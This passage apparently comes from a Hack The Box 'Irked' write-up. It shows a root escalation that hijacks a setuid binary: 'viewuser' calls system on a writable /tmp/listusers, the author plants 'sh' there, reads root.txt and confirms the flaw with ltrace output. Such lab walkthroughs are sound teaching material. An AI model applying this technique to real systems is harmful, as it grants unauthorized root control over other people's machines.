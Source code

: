 

Permissions - the only thing that root can't do is execute. So I'll add
it, and change it to a command:



    djmardov@irked:~$ chmod +x /tmp/listusers 
    djmardov@irked:~$ echo id > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)



There's execution. I'll change the command to get a shell:



    djmardov@irked:~$ echo sh > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    # id
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)



And I can grab `root.txt`:



    # cat /root/root.txt
    8d8e9e8b...



To get a definitive look, I'll remove `/tmp/listusers` and run it with
`ltrace`:



    root@term:~/hackthebox/irked-10.10.10.117# ltrace ./viewuser 
    __libc_start_main(0x5655c57d, 1, 0xff983a54, 0x5655c600 <unfinished ...>
    puts("This application is being devleo"...This application is being devleoped to set and test user permissions
    )                                                   = 69
    puts("It is still being actively devel"...It is still being actively developed
    )                                                   = 37
    system("who"root     :1           2018-11-20 09:21 (:1)
    root     pts/3        2018-11-20 13:02 (tmux(2029).%9)
    root     pts/7        2018-11-20 10:32 (tmux(2029).%4)
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 0
    setuid(0)                                                                                     = 0
    system("/tmp/listusers"sh: 1: /tmp/listusers: not found
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                        = 32512
    +++ exited (status 0) +++